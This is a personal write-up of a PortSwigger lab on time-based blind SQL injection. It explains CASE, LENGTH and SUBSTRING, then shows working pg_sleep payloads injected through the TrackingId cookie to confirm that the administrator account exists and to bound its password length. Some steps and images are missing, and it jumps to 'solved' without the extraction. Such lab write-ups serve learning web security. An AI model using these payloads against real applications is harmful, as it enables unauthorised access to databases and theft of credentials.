



# Write-up: Blind SQL injection with time delays and information retrieval
  
Lab-link: https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval  
Difficulty: Practitioner   
Status: Solved  

## Lab description  
 

## Objectives 
Retrieve the password of `administrator` user and log into their account    

## Background  
### Blind SQL injection  
**Blind SQL injection** occurs when an application is vulnerable to SQL injection, but the results of the injected query are not directly displayed in the response. Instead, information must be inferred from differences in the application's behavior.  
In this lab, the application does not reveal query results or display different responses based on the query outcome. Instead, the vulnerability can be exploited by introducing a time delay and measuring the response time.  

### Time-based blind SQL injection  
Time-based blind SQL injection is a technique that injected SQL injection payload and observe how long the application responds.  
If an injected SQL expression causes a delay of 10 seconds, the HTTP response will also be delayed about 10 seconds  

### String concatenation  
String concatenation combines multiple strings into one.  
For example: `'abc' || 'def'` produces `abcdef`  

### Using `CASE`
`CASE` can execute different expressions depending on whether a condition is true or false. The general structure is:
```text
CASE WHEN condition THEN value1 ELSE value2 END
```

### `LENGTH()`  
`LENGTH()` returns the number of characters in a string.  

### `SUBSTRING()`  
`SUBSTRING()` extracts a specific part of a string using the following syntax:  
SUBSTRING(string, start, length)    
For example: `SUBSTRING(password,1,1)`  
`password`: the string to extract characters from.  
`1` (second parameter): the starting position of the character to extract. Positions start from 1.  
`1` (third parameter): the number of characters to extract.   

### [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
Use **String concatenation** and **Time delays** to attack this lab   

## Steps  
### 1. Establish a baseline  
Firstly, I chose **Gifts** category
In Burp Suite, I intercepted this request and sent it to Repeater

The important parameter in this lab is the `TrackingId` cookie  

### 2. Test payload  
I tested payloads using different database-specific time-delay techniques and string concatenation syntax  
  
  
  
  
The third payload caused a noticeable delay, with a response time of 10,237 milliseconds.  
    
So I used `pg_sleep(10)` to attack.  

### 3. Confirm that `users` table and `administrator` user exist   
I injected:  
```text
'||(SELECT CASE WHEN(username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)--
```
The response slept 10 seconds, so `users` table and `administrator` user exist    

### 4. Identify the password length  
I injected 2 payloads: 
```text
'||(SELECT CASE WHEN(username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)--
```
The response slept 10 seconds   
```text
'||(SELECT CASE WHEN(username='administrator' AND LENGTH(password)>30) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)--
```
This time, it did not sleep at all  
Therefore, `1<the password length<=30`

And the lab was solved  
  
